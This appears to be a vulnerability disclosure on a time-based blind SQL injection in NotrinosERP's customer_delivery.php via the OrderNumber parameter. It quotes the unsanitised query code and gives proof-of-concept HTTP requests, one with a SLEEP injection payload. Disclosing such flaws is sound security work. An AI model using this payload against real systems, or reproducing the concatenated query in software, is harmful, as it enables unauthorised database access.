 # Description
The endpoint **/sales/customer_delivery.php** is vulnerable to Blind SQL Injection (Time-based) via the GET parameter **OrderNumber**. This endpoint can be triggered through the following menu: Sales - Sales Order Entry - Place Order - Make Delivery Against This Order. From the source code perspective, the endpoint will execute the **adjust_shipping_charge** function in the **\sales\customer_delivery.php** file line number 107. As shown in the code snippet below, the OrderNumber parameter is taken directly from the query string and passed into the function without any sanitization or escaping.


```
adjust_shipping_charge($ord, $_GET['OrderNumber']);
```



The adjust_shipping_charge function itself can be found in the **\sales\includes\db\sales_delivery_db.inc** file line number 203. In that function the OrderNumber parameter or $trans_no is concatenated directly into the SQL query.

```
function adjust_shipping_charge(&$delivery, $trans_no) {
	$sql = "SELECT sum(ov_freight) as freight FROM ".TB_PREF."debtor_trans WHERE order_ = $trans_no AND type = " . ST_CUSTDELIVERY . " AND debtor_no = " . $delivery->customer_id;
	$result = db_query($sql, 'Can not find delivery notes');
```

This allows the attacker to inject malicious OrderNumber payloads to execute the malicious SQL query.

# Proof of Concept

Triggering time delays with MySQL sleep function.

Normal request will take around 200 milis (0.2 seconds) response time

```
GET /NotrinosERP/sales/customer_delivery.php?OrderNumber=10 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/NotrinosERP/sales/sales_order_entry.php?AddedID=12
Cookie: Notrinos2938c152fda6be29ce4d5ac3a638a781=8s9gl1g6fphudemau5ul3polro; FAinstall=n916ogdqa12ni92dlhmgqiv7gt
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

The following malicious request with OrderNumber parameter set to `10+OR+SLEEP(1)%23` will take around 14000 milis (14 seconds) response time.

```
GET /NotrinosERP/sales/customer_delivery.php?OrderNumber=10+OR+SLEEP(1)%23 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/NotrinosERP/sales/sales_order_entry.php?AddedID=12
Cookie: Notrinos2938c152fda6be29ce4d5ac3a638a781=8s9gl1g6fphudemau5ul3polro; FAinstall=n916ogdqa12ni92dlhmgqiv7gt
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

```

Note: The orderNumber (e.g., 10) need to be valid/existing order number.



# Root Cause
User input on the WorkOrder parameter ($trans_no) is not sanitized and used directly in the query through string concatenation.
https://github.com/notrinos/NotrinosERP/blob/master/sales/includes/db/sales_delivery_db.inc#L204
